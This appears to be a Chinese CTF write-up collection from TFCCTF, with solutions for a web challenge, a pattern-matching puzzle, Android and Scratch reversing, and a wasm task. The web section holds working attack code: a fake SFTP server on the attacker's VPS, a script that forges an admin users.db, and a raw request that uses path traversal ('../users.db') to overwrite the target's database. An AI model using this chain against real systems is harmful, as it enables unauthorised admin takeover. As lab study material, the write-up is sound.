{local_path} " ) files = os.listdir(local_path) attrs = [] for f in files: st = os.stat(os.path.join(local_path, f)) attrs.append(paramiko.SFTPAttributes.from_stat(st, filename=f)) return attrs def stat (self, path ): local_path = self ._to_local(path) print (f"[SFTP] stat {path} -> {local_path} " ) try : st = os.stat(local_path) return paramiko.SFTPAttributes.from_stat(st) except FileNotFoundError: raise paramiko.SFTPNoSuchFile(path) lstat = stat def open (self, path, flags, attr ): local_path = self ._to_local(path) print (f"[SFTP] open {path} -> {local_path} " ) mode = "" if flags & os.O_WRONLY: mode = "wb" elif flags & os.O_RDWR: mode = "rb+" else : mode = "rb" try : f = open (local_path, mode) except FileNotFoundError: raise paramiko.SFTPNoSuchFile(path) handle = paramiko.SFTPHandle(flags=flags) handle.readfile = f if "r" in mode else None handle.writefile = f if "w" in mode else None return handle def start_sftp_server (host="0.0.0.0" , port=22 ): sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM) sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1 ) sock.bind((host, port)) sock.listen(100 ) print (f"[+] SFTP server listening on {host} :{port} " ) while True : client, addr = sock.accept() print (f"[+] Connection from {addr} " ) t = paramiko.Transport(client) t.add_server_key(HOST_KEY) server = AlwaysAllowServer() try : t.start_server(server=server) except Exception as e: print ("[-] SSH negotiation failed:" , e) continue t.set_subsystem_handler("sftp" , paramiko.SFTPServer, SimpleSFTPHandler) if __name__ == "__main__" : os.makedirs(WORK_DIR, exist_ok=True ) with open (os.path.join(WORK_DIR, "test.txt" ), "w" ) as f: f.write("Hello from fake SFTP server\n" ) start_sftp_server()
需要安装paramiko依赖
有点小bug, 要把事先准备好的users.db放在/app/app/目录下
然而直接覆盖users.db也不行, 题目对users.db进行了校验

依旧是ai生成脚本来修改获得恶意users.db, 使得它通过DB_id校验
message.py如下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 154 155 156 157 158 159 160 161 162 163 164 165 166 167 168 169 170 171 172 173 174 175 176 177 178 179 180 181 182 183 184 185 186 187 188 189 190 191 192 193 194 195 196 197 198 199 200 201 202 203 204 205 206 207 208 209 210 211 212 213 214 215 216 217 218 219 220 221 222 223 224 225 226 227 228 229 230 """ 基于目标 Next.js 服务的 /api/download 接口，提取数据库的 DB_ID， 并在本地生成一个包含管理员用户的 users.db（密码为可控明文，存储为 bcrypt 哈希）。 使用说明（示例）： python3 exp.py \ --base-url http://localhost:3000 \ --username admin \ --password Admin@123 \ --output ./users.db 注意： - 本脚本不会尝试覆盖目标容器内的数据库，只负责在本地生成可用的 users.db。 - 后续可结合 SFTP 覆盖漏洞将该文件写回容器（例如利用 filename="../../users.db"）。 """ from __future__ import annotationsimport argparseimport jsonimport osimport reimport sqlite3import sysimport urllib.requestimport urllib.errorfrom typing import Optional def bcrypt_hash (password: str ) -> str : """生成 bcrypt 哈希，优先使用 bcrypt 库，不存在则回退到 crypt（$2b$）。 参数: password: 明文口令 返回: 形如 $2b$10$... 的 bcrypt 哈希字符串 """ try : import bcrypt hashed_bytes = bcrypt.hashpw( password.encode("utf-8" ), bcrypt.gensalt(rounds=10 ) ) return hashed_bytes.decode("utf-8" ) except Exception: pass try : import crypt import secrets import string alphabet = "./" + string.digits + string.ascii_uppercase + string.ascii_lowercase salt22 = "" .join(secrets.choice(alphabet) for _ in range (22 )) salt = f"$2b$10${salt22} " hashed = crypt.crypt(password, salt) if not hashed or not hashed.startswith("$2" ): raise RuntimeError("系统 crypt 不支持 bcrypt 算法 ($2b$)" ) return hashed except Exception as exc: raise RuntimeError( "无法生成 bcrypt 哈希：请安装 `pip install bcrypt` 或确保系统 crypt 支持 $2b$" ) from exc def http_post_json (url: str , payload: dict , timeout: float = 15.0 ) -> dict : """使用标准库发起 JSON POST 请求，返回解析后的 JSON 字典。 仅依赖 urllib，避免引入额外依赖。 """ data = json.dumps(payload).encode("utf-8" ) req = urllib.request.Request( url=url, data=data, headers={"Content-Type" : "application/json" }, method="POST" , ) try : with urllib.request.urlopen(req, timeout=timeout) as resp: text = resp.read().decode("utf-8" , errors="replace" ) return json.loads(text) except urllib.error.HTTPError as e: try : body = e.read().decode("utf-8" , errors="replace" ) except Exception: body = "" raise RuntimeError(f"HTTP {e.code} {e.reason} : {body} " ) from e except urllib.error.URLError as e: raise RuntimeError(f"网络错误: {e} " ) from e def extract_db_id_from_text (text: str ) -> Optional [str ]: """从 /api/download 返回的文本内容中提取 32 位十六进制 DB_ID。 由于服务端以 utf-8 读取二进制 SQLite 文件，内容可能被破坏，但 'db_id' 与其值通常 仍以明文出现。这里优先匹配 'db_id' 附近的 32 位 hex；若失败，回退为全局第一个 32 位 hex。 """ m = re.search(r"db_id[\s\S]{0,128}?([a-f0-9]{32})" , text) if m: return m.group(1 ) m = re.search(r"([a-f0-9]{32})" , text) if m: return m.group(1 ) return None def fetch_db_id (base_url: str ) -> str : """调用 /api/download 下载 users.db，并从响应内容中提取 DB_ID。""" url = base_url.rstrip("/" ) + "/api/download" payload = { "host" : "localhost" , "filename" : "users.db" , "keyPath" : "/root/.ssh/id_rsa" , "downloadPath" : "/app/downloads/" , } resp = http_post_json(url, payload) if not isinstance (resp, dict ) or not resp.get("ok" ): raise RuntimeError(f"下载 users.db 失败: {resp} " ) content = resp.get("content" , "" ) if not isinstance (content, str ) or not content: raise RuntimeError("下载结果无内容或类型异常" ) db_id = extract_db_id_from_text(content) if not db_id: raise RuntimeError("未能从返回内容中解析出 DB_ID" ) return db_id def forge_users_db ( output_path: str , db_id: str , admin_username: str , admin_password_hash: str None : """生成符合目标服务结构的 users.db 并写入管理员。""" out_dir = os.path.dirname(os.path.abspath(output_path)) or "." os.makedirs(out_dir, exist_ok=True ) if os.path.exists(output_path): os.remove(output_path) conn = sqlite3.connect(output_path) try : cur = conn.cursor() cur.executescript( """ PRAGMA journal_mode=WAL; CREATE TABLE IF NOT EXISTS users ( id INTEGER PRIMARY KEY AUTOINCREMENT, username TEXT UNIQUE NOT NULL, password TEXT NOT NULL, admin BOOLEAN DEFAULT 0 ); CREATE TABLE IF NOT EXISTS meta ( key TEXT PRIMARY KEY, value TEXT NOT NULL ); """ ) cur.execute( "INSERT INTO meta(key, value) VALUES(?, ?) " "ON CONFLICT(key) DO UPDATE SET value=excluded.value" , ("db_id" , db_id), ) cur.execute( "INSERT INTO users(username, password, admin) VALUES(?, ?, ?)" , (admin_username, admin_password_hash, 1 ), ) conn.commit() finally : conn.close() def main () -> int : parser = argparse.ArgumentParser( description="从目标服务提取 DB_ID，并本地生成包含管理员用户的 users.db" ) parser.add_argument( "--base-url" , default="http://localhost:3000" , help ="目标服务根地址，如 http://localhost:3000" , ) parser.add_argument( "--username" , default="admin" , help ="要写入的管理员用户名" ) parser.add_argument( "--password" , default="Admin@123" , help ="管理员明文密码（将计算为 bcrypt 哈希存入 DB）" , ) parser.add_argument( "--output" , default="./users.db" , help ="输出的 SQLite 文件路径" ) parser.add_argument( "--password-hash" , default=None , help ="可选：直接提供已计算好的 bcrypt 哈希，若提供将跳过本地计算" , ) args = parser.parse_args() try : print (f"[*] 目标: {args.base_url} " ) db_id = fetch_db_id(args.base_url) print (f"[+] 提取到 DB_ID: {db_id} " ) if args.password_hash: admin_hash = args.password_hash print ("[*] 使用外部提供的 bcrypt 哈希" ) else : print ("[*] 正在生成管理员口令的 bcrypt 哈希（成本因子 10）..." ) admin_hash = bcrypt_hash(args.password) print (f"[+] bcrypt 哈希: {admin_hash} " ) forge_users_db(args.output, db_id, args.username, admin_hash) print (f"[+] 已生成本地数据库: {os.path.abspath(args.output)} " ) print ("[!] 后续可通过 SFTP 覆盖漏洞将该文件写回容器以生效。" ) return 0 except Exception as e: print (f"[!] 失败: {e} " ) return 1 if __name__ == "__main__" : sys.exit(main())
之后打开靶机注册账户 qqq / qqq
获取并生成users.db
1 python .\message.py --base-url https://crooneytfc-655e0fb5087f0b1f.challs.tfcctf.com/ --username qqq --password qqq --output users.db
将生成的users.db放在vps的/app/app目录
在服务器上运行fake_server.py,注意检查22端口是否冲突
靶机登录qqq账户, 发包
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 POST /api/download HTTP/2 Host : crooneytfc-655e0fb5087f0b1f.challs.tfcctf.comCookie : token=MTpxcXE%3DContent-Length : 113Sec-Ch-Ua-Platform : "Windows"User-Agent : Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36Sec-Ch-Ua : "Not;A=Brand";v="99", "Google Chrome";v="139", "Chromium";v="139"Content-Type : application/jsonSec-Ch-Ua-Mobile : ?0Accept : */*Origin : https://crooneytfc-655e0fb5087f0b1f.challs.tfcctf.comSec-Fetch-Site : same-originSec-Fetch-Mode : corsSec-Fetch-Dest : emptyReferer : https://crooneytfc-655e0fb5087f0b1f.challs.tfcctf.com/Accept-Encoding : gzip, deflateAccept-Language : zh-CN,zh;q=0.9,en;q=0.8Priority : u=1, i{ "host" : "vps_ip" , "filename" : "../users.db" , "keyPath" : "/root/.ssh/id_rsa" , "downloadPath" : "/app/downloads/" }
服务器收到请求

此时qqq账户已经是admin权限
访问/api/admin即得flag
TO ROTATE, OR NOT TO ROTATE 基于一个3×3网格上的几何图案匹配问题，考查图案的旋转不变性识别
需要稳健地收集 mapping（确保 canonical 不重复），并在 Phase2 自动答题拿 flag,主要遇到的问题是脚本会遇到阻塞问题导致与靶机交互断开
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 154 155 156 157 158 159 160 161 162 163 164 165 166 167 168 169 170 171 172 173 174 175 176 177 178 179 180 181 182 183 184 185 186 187 188 189 190 191 192 193 194 195 196 197 198 199 200 201 202 203 204 205 206 207 208 209 210 211 212 213 214 215 216 217 218 219 220 221 222 223 224 225 226 227 228 229 230 231 232 233 234 235 236 237 238 239 240 241 242 243 244 245 246 247 248 249 250 251 252 253 254 255 256 257 258 259 260 261 262 263 264 265 266 267 268 269 270 271 272 273 274 275 276 277 278 279 280 281 282 283 284 285 286 287 288 289 290 291 292 293 294 295 296 297 298 299 300 301 302 303 304 305 306 307 308 309 310 311 312 313 314 315 316 317 318 319 320 321 322 323 324 325 326 327 328 329 330 331 332 333 334 335 336 337 338 339 340 341 import socket, ssl, select , time , itertools, json, sys, traceback HOST = "to-rotate-49ee3aa7dbf3db7e.challs.tfcctf.com" PORT = 1337 RECV_TIMEOUT = 30.0 TARGET_OKS = 120 SAVE_PATH = "canon2N.json" POINTS = [(x, y) for x in range(3) for y in range(3)] def gcd(a, b): while b: a, b = b, a % b return abs(a) def valid_segment(a, b): if a == b: return False dx, dy = abs(a[0]-b[0]), abs(a[1]-b[1]) return gcd(dx, dy) == 1 and 0 <= a[0] <= 2 and 0 <= a[1] <= 2 and 0 <= b[0] <= 2 and 0 <= b[1] <= 2 SEGMENTS = [] for i in range(len(POINTS)): for j in range(i+1, len(POINTS)): a, b = POINTS[i], POINTS[j] if valid_segment(a, b): A, B = sorted([a, b]) SEGMENTS.append((A, B)) assert len(SEGMENTS) == 28 SEG_INDEX = {SEGMENTS[i]: i for i in range(len(SEGMENTS))} def rot_point(p, k): x, y = p; cx, cy = 1, 1 x0, y0 = x - cx, y - cy for _ in range(k % 4): x0, y0 = -y0, x0 return (x0 + cx, y0 + cy) def rot_segment(seg, k): a, b = seg ra, rb = rot_point(a, k), rot_point(b, k) A, B = sorted([ra, rb]) return (A, B) def canon_bits(segs): vals = [] for k in range(4): bits = 0 for (a, b) in segs: A, B = sorted([a, b]) rs = rot_segment((A, B), k) bits |= (1 << SEG_INDEX[rs]) vals.append(bits) return min(vals) # ---------- deterministic candidate generator ---------- def candidate_patterns(max_k=5 ): # 按 k 从 1 ..max_k 枚举组合（顺序稳定） for k in range(1 , max_k+1 ): for comb in itertools.combinations(SEGMENTS, k): yield list(comb) # ---------- socket line reader ---------- class LineReader: def __init__(self, sock): self.sock = sock self.buf = b"" def recv_line(self, timeout=RECV_TIMEOUT): end = time.time() + timeout while True: if b'\n' in self.buf: line, self.buf = self.buf.split(b'\n', 1 ) return line.decode('utf-8 ', errors='replace').rstrip('\r') if time.time() > end: raise TimeoutError("recv_line timeout") r, _, _ = select.select([self.sock], [], [], max(0 , end - time.time())) if not r: continue data = self.sock.recv(4096) if not data: if self.buf: line = self.buf; self.buf = b"" return line.decode('utf-8' , errors='replace' ).rstrip('\r' ) raise EOFError("connection closed" ) self.buf += data def save_mapping(canon2N, path=SAVE_PATH): try: with open(path, "w" ) as f: json.dump({str(k): v for k, v in canon2N.items()}, f) except Exception as e: print ("[!] save error:" , e) def load_mapping(path=SAVE_PATH): with open(path, "r" ) as f: j = json.load(f) return {int(k): v for k, v in j.items()} def connect(): raw = socket.create_connection((HOST, PORT)) ctx = ssl.create_default_context() ss = ctx.wrap_socket(raw, server_hostname=HOST) ss.settimeout(RECV_TIMEOUT) return ss def main(): try: ss = connect() except Exception as e: print ("连接失败：" , e); return rdr = LineReader(ss) print ("[+] connected to" , HOST, PORT) canon2N = {} used_canons = set () ok_count = 0 cand_iter = candidate_patterns(max_k=5) pending_mutated_line = None try: print ("[*] start main loop: will respond to every N_* until Phase2 appears" ) while True: try: line = rdr.recv_line() except TimeoutError: print ("[*] recv timeout waiting server... continue" ) continue if line is None: raise EOFError("connection closed" ) line = line.strip() if line == "" : continue print (line) if "=== Phase 2 ===" in line or "MutatedPattern" in line: print ("[*] detected Phase2 marker:" , line) if "MutatedPattern" in line: pending_mutated_line = line break if line.startswith("N_" ) and ":" in line: try: _, ns = line.split(":" , 1) N = int(ns.strip()) except: print ("[!] can't parse N line:" , line) continue print (f"[Phase1] got N={N} (OK {ok_count}/{TARGET_OKS})" ) segs = None; canon = None for cand in cand_iter: c = canon_bits(cand) if c not in used_canons: segs = cand; canon = c; break if segs is None: cand_iter = candidate_patterns(max_k=6) for cand in cand_iter: c = canon_bits(cand) if c not in used_canons: segs = cand; canon = c; break if segs is None: raise RuntimeError("no candidate available — 增加 max_k" ) used_canons.add(canon) canon2N[canon] = N save_mapping(canon2N) out = str(len(segs)) + "\n" for (a,b) in segs: out += f"{a[0]} {a[1]} {b[0]} {b[1]}\n" ss.sendall(out.encode('utf-8' )) replied_ok = False for _ in range(60): try: resp = rdr.recv_line(timeout =10.0) except TimeoutError: continue if resp is None: continue print ("[server]" , resp) if "OK" in resp: ok_count += 1 replied_ok = True break if "Input error" in resp or "Error" in resp: print ("[!] server rejected our pattern:" , resp) break if not replied_ok: print ("[!] didn't observe OK for this N (maybe server printed other lines), continuing" ) continue continue print (f"[+] entering Phase2. collected {len(canon2N)} mappings, ok_count={ok_count}" ) solved = 0 def handle_mutated(start_line=None): nonlocal solved if start_line is None: line = rdr.recv_line() if line is None: return False else : line = start_line if "MutatedPattern" in line: m_line = rdr.recv_line().strip() elif line.strip().isdigit(): m_line = line.strip() else : m_line = None for _ in range(6): l2 = rdr.recv_line() if l2 is None: break if l2.strip().isdigit(): m_line = l2.strip(); break if m_line is None: print ("[!] cannot find m for mutated pattern" ); return False try: m = int(m_line) except: print ("[!] invalid m:" , m_line); return False segs = [] for _ in range(m): ln = rdr.recv_line().strip() parts = ln.split() if len(parts) < 4: print ("[!] malformed segment line:" , ln ); return False x1,y1,x2,y2 = map(int, parts[:4]) A,B = sorted([(x1,y1),(x2,y2)]) segs.append((A,B)) try: pl = rdr.recv_line(timeout =0.5) if pl is not None and pl.strip() != "" : print ("[Phase2 prompt?]" , pl) except TimeoutError: pass c = canon_bits(segs) N = canon2N.get(c, None) if N is None: print ("[!] unknown canonical in Phase2:" , hex(c)) def bitcount(x): return x.bit_count() cand = sorted(canon2N.items(), key=lambda kv: bitcount(kv[0] ^ c)) if cand: print ("[!] trying nearest candidate N =" , cand[0][1], "hd=" , bitcount(cand[0][0]^c)) N = cand[0][1] else : N = 0 ss.sendall((str(N) + "\n").encode('utf-8 ')) try: resp = rdr.recv_line(timeout =10.0) if resp is not None: print ("[Phase2 server]" , resp) if resp.startswith("OK" ): solved += 1 if "{" in resp or "TFCCTF" in resp or "flag" in resp.lower(): print ("[+] flag/finish line:" , resp) try: while True: l = rdr.recv_line(timeout =1.0) if l is None: break print (l) except Exception: pass return True except TimeoutError: print ("[!] timeout waiting server after sending answer" ) return False if pending_mutated_line: finished = handle_mutated(pending_mutated_line) if finished: return while True: try: line = rdr.recv_line() except TimeoutError: continue if line is None: break if line.strip() == "" : continue print ("[Phase2 recv]" , line) if "MutatedPattern" in line or line.strip().isdigit(): finished = handle_mutated(line) if finished: break continue print ("[+] Phase2 finished. solved OKs:" , solved) except KeyboardInterrupt: print ("Interrupted by user" ) except Exception as e: print ("Fatal error:" , e) traceback.print_exc() finally: try: ss.shutdown(socket.SHUT_RDWR) except: pass try: ss.close() except: pass if __name__ == "__main__" : main()
Reverse OXIDIZED INTENTIONS 借着这道题学习了很多apk解包、打包、签名的知识
arm的so所以必须要真机
首先分析java层可知做了个广播接收seed值（intent.getStringExtra(“seed”)）
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 package com.example.oxidized_intentions;import android.content.BroadcastReceiver;import android.content.Context;import android.content.Intent;import android.util.Log;import android.widget.Toast;import kotlin.Metadata;import kotlin.jvm.internal.Intrinsics;@Metadata(d1 = {"\u0000 \n\u0002\u0018\u0002\n\u0002\u0018\u0002\n\u0002\b\u0003\n\u0002\u0010\u0002\n\u0000\n\u0002\u0018\u0002\n\u0000\n\u0002\u0018\u0002\n\u0002\b\u0002\b\u0007\u0018\u0000 \n2\u00020\u0001:\u0001\nB\u0007¢\u0006\u0004\b\u0002\u0010\u0003J\u0018\u0010\u0004\u001a\u00020\u00052\u0006\u0010\u0006\u001a\u00020\u00072\u0006\u0010\b\u001a\u00020\tH\u0016¨\u0006\u000b"}, d2 = {"Lcom/example/oxidized_intentions/TicketReceiver;", "Landroid/content/BroadcastReceiver;", "<init>", "()V", "onReceive", "", "context", "Landroid/content/Context;", "intent", "Landroid/content/Intent;", "Companion", "app_release"}, k = 1, mv = {2, 0, 0}, xi = 48) public final class TicketReceiver extends BroadcastReceiver { public static final int $stable = 0 ; public static final String ACTION_FLAGGED = "com.example.oxidized_intentions.FLAGGED" ; public static final String EXTRA_FLAG = "flag" ; private static final String PART_J = "oxidized-" ; @Override public void onReceive (Context context, Intent intent) { Intrinsics.checkNotNullParameter(context, "context" ); Intrinsics.checkNotNullParameter(intent, "intent" ); String stringExtra = intent.getStringExtra("seed" ); if (stringExtra == null ) { return ; } Log.d("OXI" , "Got broadcast, seed=" + stringExtra); String str = stringExtra; int i = 0 ; for (int i2 = 0 ; i2 < str.length(); i2++) { i ^= str.charAt(i2); } String flag = Native.getFlag(context, stringExtra, PART_J, i & 255 ); Toast.makeText(context, flag, 1 ).show(); Log.d("OXI" , "FLAG=" + flag); Intent intent2 = new Intent (ACTION_FLAGGED); intent2.setPackage(context.getPackageName()); intent2.putExtra(EXTRA_FLAG, flag); context.sendBroadcast(intent2); } } package com.example.oxidized_intentions;import android.content.Context;import kotlin.Metadata;import kotlin.jvm.JvmStatic;@Metadata(d1 = {"\u0000&\n\u0002\u0018\u0002\n\u0002\u0010\u0000\n\u0002\b\u0003\n\u0002\u0010\u0002\n\u0000\n\u0002\u0010\u000e\n\u0000\n\u0002\u0018\u0002\n\u0002\b\u0003\n\u0002\u0010\b\n\u0000\bÇ\u0002\u0018\u00002\u00020\u0001B\t\b\u0002¢\u0006\u0004\b\u0002\u0010\u0003J\b\u0010\u0004\u001a\u00020\u0005H\u0007J) \u0010\u0006\u001a\u00020\u00072\u0006\u0010\b\u001a\u00020\t2\u0006\u0010\n\u001a\u00020\u00072\u0006\u0010\u000b\u001a\u00020\u00072\u0006\u0010\f\u001a\u00020\rH\u0087 ¨\u0006\u000e"}, d2 = {" Lcom/example/oxidized_intentions/Native;", " ", " <init>", " ()V", " initAtLaunch", " ", " getFlag", " ", " ctx", " Landroid/content/Context;", " seed", " part", " check", " ", " app_release"}, k = 1, mv = {2, 0, 0}, xi = 48) /* loaded from: classes2.dex */ public final class Native { public static final int $stable = 0; public static final Native INSTANCE = new Native(); @JvmStatic public static final native String getFlag(Context ctx, String seed, String part, int check); @JvmStatic public static final void initAtLaunch() { } private Native() { } static { System.loadLibrary(" oxi"); } }
分析native层getFlag函数可知，里面实现了很复杂的seed生成随机数操作，比较字符串fe2o3rust
1 2 3 4 5 6 7 8 9 10 11 12 if ( v76 != 9 || (v13 = s1, v14 = memcmp (s1, aFe2o3rust, 9uLL ), (_DWORD)v14) ) { *(_QWORD *)&v89 = &v74; *((_QWORD *)&v89 + 1 ) = sub_115DC; sub_475C4(); *(_QWORD *)&v90 = v15; *((_QWORD *)&v90 + 1 ) = v16; v99 = &off_4FBE0; v100 = 3LL ; v101 = &v89; v102 = 2uLL ; v17 = sub_473F8(v81);
后面还有一个逐位异或验证哈希值，由此可知seed值应该为fe2o3rust
尝试adb安装apk到真机，然后广播seed值
1 adb shell am broadcast -n com.example.oxidized_intentions/.TicketReceiver --es seed "fe2o3rust"
查看log（adb logcat -s OXI）
1 2 3 4 08 -29 22 :37 :18.146 10323 10323 D OXI : Computing flag for seed='fe2o3rust' ...08 -29 22 :37 :19.149 10323 10323 D OXI : anti_hook_check elapsed=1003 ms08 -29 22 :38 :24.097 10323 10323 D OXI : HACKER bit not set -> returning FAKE08 -29 22 :38 :24.114 10323 10323 D OXI : FLAG=FAKE{2152411021524119 }
发现HACKER bit not set -> returning FAKE，由此可知需要patch掉下面的if，不让他进去
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 if ( HACKER != 1 ) { v58 = sub_1187C(&unk_480F, 36LL ); v94 = (__int64 *)&v87; v95 = sub_15B00; *(_QWORD *)&v87 = v76 ^ 0x2152411021524110L L; v101 = 0LL ; v102 = 0x10u LL; v99 = (char **)(&dword_0 + 2 ); *(_QWORD *)&v103 = 0x800000020L L; sub_47354(v58); sub_113E4(v83, &v89); v45 = sub_474D4(&v89); if ( (unsigned __int8)v89 != 15 ) { v68 = sub_472C8(v45); v69 = sub_472E4(v68); sub_472F8(v69); } goto LABEL_38; }
直接nop掉跳转即可

然后apply patches
接下来需要做的是把新的so重新打包回去，这里需要借助apktool
1 apktool d app-release.apk -o app-src
然后替换新的so，此外还需要修改AndroidManifest.xml里extractNativeLibs的值为true
直接替换apk里的so会报错adb: failed to install app.apk: Failure [INSTALL_FAILED_INVALID_APK: Failed to extract native libraries, res=-2]，因为可能进行了deflate压缩，就算选择了store依然报错
接着apktool打包
1 apktool b app-src -o app-unsigned .apk
此时得到apk没有签名没法安装的，会报错adb: failed to install app-unsigned.apk: Failure [INSTALL_PARSE_FAILED_NO_CERTIFICATES: Failed to collect certificates from /data/app/vmdl1700332527.tmp/base.apk: Attempt to get length of null array]
此时需要先生成key
1 keytool -genkey -v -keystore test.jks -keyalg RSA -keysize 2048 -validity 10000 -alias testkey
然后找到android sdk下的apksigner.bat
1 F:\android\build-tools\35.0.1\apksigner.bat sign --ks test.jks --ks-key-alias testkey --out app-signed.apk app-unsigned.apk
然后就可以安装，再次执行上面的广播命令，结束后，点看apk去log里即可看到flag
1 2 3 4 5 08-30 00:00:03.162 12473 12473 D OXI : Got broadcast, seed=fe2o3rust 08-30 00:00:03.166 12473 12473 D OXI : Required seed is: fe2o3rust 08-30 00:00:03.166 12473 12473 D OXI : Computing flag for seed='fe2o3rust' ... 08-30 00:00:04.187 12473 12473 D OXI : anti_hook_check elapsed=1020ms 08-30 00:01:09.162 12473 12473 D OXI : FLAG=TFCCTF{167e3ce3c65387c6e981c31c39ac7839}
SCRATCHING MACHINE 很复杂的积木语言题scratch，碰到这种直接用工具即可
https://github.com/BirdLogics/sb3topy
转成python直接喂给ai写脚本，代码很长不放了，用上面的工具输出应该都一样，直接给出解密脚本
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 cacamaca = [ 17 , 142 , 113 , 142 , 113 , 142 , 113 , 142 , 113 , 142 , 113 , 142 , 113 , 142 , 113 , 142 , 113 , 142 , 113 , 142 , 113 , 142 , 113 , 142 , 113 , 142 , 113 , 142 , 113 , 142 , 113 , 142 , 113 , 142 , 113 , 142 , 113 , 142 , 113 , 142 , 113 , 142 , 113 , 142 , 113 , 142 , 113 , 142 , 113 , 142 , 113 , 142 , 113 , 142 , 113 , 142 , 113 , 142 , 113 , 142 , 113 , 142 , 113 , 142 , 113 , 142 , 113 , 142 , 113 , 142 , 113 , 44 , 30 , 4 , 30 , 188 , 142 , 85 , 54 , 77 , 46 , 212 , 151 , 22 , 149 , 190 , 68 , 143 , 14 , 165 , 95 , 28 , 189 , 158 , 100 , 87 , 252 , 143 , 117 , 206 , 133 , 38 , 101 , 159 , 4 , 31 , 140 , 135 , 36 , 63 , 124 , 55 , 68 , 127 , 133 , 30 , 101 , 6 , 181 , 158 , 100 , 15 , 196 , 62 , 69 , 230 , 165 , 142 , 29 , 231 , 252 , 191 , 180 , 215 , 76 , 182 , 197 , 190 , 5 , 238 , 40 , 0 , 1 , 69 , 0 , 2 , 1 , 37 , 3 , 2 , 1 , 3 , 2 , 35 , 4 , 3 , 28 , 4 , 3 , 37 , 5 , 4 , 28 , 5 , 4 , 37 , 6 , 3 , 3 , 6 , 1 , 35 , 7 , 6 , 12 , 4 , 7 , 39 , 3 , 4 , 1 , 2 , 1 , 25 , 2 , 69 , 148 , 0 , 2 , 1 , 37 , 3 , 2 , 1 , 3 , 2 , 35 , 4 , 3 , 1 , 3 , 69 , 35 , 5 , 3 , 41 , 4 , 5 , 141 , 1 , 2 , 1 , 25 , 2 , 69 , 191 , 38 ] def ror (n, bits, width=8 ): """8位循环右移函数""" mask = (1 << width) - 1 return ((n >> bits) | (n << (width - bits))) & mask key = cacamaca[1 ] data_block = cacamaca[72 :72 + 69 ] flag_bytes = [0 ] * 69 xor_val_0 = data_block[0 ] ^ key flag_bytes[0 ] = ror(xor_val_0, 3 ) for i in range (len (data_block) - 1 ): xor_val_i = data_block[i+1 ] ^ data_block[i] flag_bytes[i+1 ] = ror(xor_val_i, 3 ) flag = "" .join(map (chr , flag_bytes)) print ("获取到的 Flag 是:" )print (flag)
MCCRAB2 wasm逆向，根目录python起一个http（python -m http.server 8888），然后127.0.0.1:8888打开即可使用index.html，同时还可以调试wasm代码
首先还是wasm2c编译出来，得到可执行文件ida反编译更好分析
1 2 wasm2c wasm_oscn_bg.wasm -o out.c gcc -c out.c -o out.o
根据题目给的lib.rs可知核心加密比较逻辑都在check_flag、encrypt等里面
法一：动态调试
得到o文件后ida分析找check_flag等函数，结合wat代码可以发现data 1049113位置处有特殊字符串C3FAE3F2EFF4BFC6C70D91C1F1A8F2DAFAFEACE5FFF7C712D6EAF1EFBA818AFEEFEBA2D1F70FD6EBE3F9AECDCAE4B7EBEDDCFB129DE8BCD9F4DCE9B0D6F7C9D8F01DDFcheia_osc_plugenc
